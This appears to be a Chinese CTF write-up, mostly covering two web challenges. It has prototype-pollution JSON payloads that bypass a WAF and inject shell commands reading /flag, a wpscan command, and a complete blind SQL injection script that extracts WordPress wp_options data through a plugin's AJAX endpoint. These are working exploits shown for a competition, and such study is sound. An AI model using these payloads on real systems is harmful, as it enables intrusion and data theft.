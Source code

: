 https://dxh3b3fqgc3.feishu.cn/docx/HkgmdV6Fgom3P0x0iUscKxYZnLd
# web
### realrce

审计代码,发现只要url解码失效waf就会return false,
```js
function waf(input_code) {
    bypasspin = /%[0-9a-fA-F]{2}/i;
    const bypasscode = bypasspin.test(input_code);
    if (bypasscode) {
        try {
            return waf(decodeURIComponent(input_code));
        } catch (error) {
            console.error("Error decoding input: ", error);
            //漏洞产生点
            return false;
        }
    }
    const blacklist = [/__proto__/i, /constructor/i, /prototype/i];
    for (const blackword of blacklist) {
        if (blackword.test(input_code)) {
            return true;
        }
    }
    return false;
}
```
原型链污染`cmd_rce`属性

非预期执行env获取flag
```json
{"msg":{"__proto__":{"cmd_rce":"ls"},"%ff":""}}
```
本来想着绕过xxd空格,正则还没看懂,结果发现已经绕过去了
```json
{"msg":{"__proto__":{"cmd_rce":"ls;xxd`cat /flag`/flag"},"%ff":""}}
```

```
{"__proto__":{"isAdmin":true}}
```
### EzPenetration
wordpress的渗透

安装了wpscan,在wsl上

`wpscan --url http://node4.buuoj.cn:28657/`


发现存在sql注入漏洞
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231129015952.png)

```python
    #! /bin/python
    import requests
    def main():
            session = requests.Session()

            paramsGet = {"action":"rtec_send_unregister_link"}


            result = ''
            if 'wp_option' not in __import__('os').listdir('.'):
                    __import__('os').system('touch wp_option') # 用于记录wp_options表的内容

            with open('wp_option','r') as f: # 断点重连
                    result = f.read()[0:-1]
            i = len(result)
            while True:
                    i = i + 1
                    head = 30
                    tail = 130

                    while head < tail:
                            mid = (head + tail) >> 1
                            paramsPost = {"email":"r3tr0young@gmail.com","event_id":f"3 union select 1,2,3,4,5,6,7,8,9,database() from wp_users where 0^(select(select ascii(substr(group_concat(option_name,0x7e,option_value),{i},1)) from wp_options where option_id = 16)>{mid})-- "}
                            cookies = {"wordpress_test_cookie":"WP%20Cookie%20check"}
                            response = session.post("http://127.0.0.1:8080/wp-admin/admin-ajax.php", data=paramsPost, params=paramsGet, cookies=cookies)

                            if "success" in response.text:
                                    head = mid + 1
                            else:
                                    tail = mid

                    if head != 30:
                            result += chr(head)
                            print(result)
                            with open('wp_option','w') as f:
                                    f.write(result)
                    else:
                            break
        
    def restart():
            try:
                    main()
            except:
                    restart()

    if __name__ == '__main__':
                    try:
                            main()
                    except:
                            restart()
```


# reverse

### ezpython
#pyc
pyc逆向,直接使用会报错,010打开发现需要修改文件头,提示python3.11

```python

```

# pwn

# crypto

# Misc


---
# *相关wp*




2023-11-26   05:13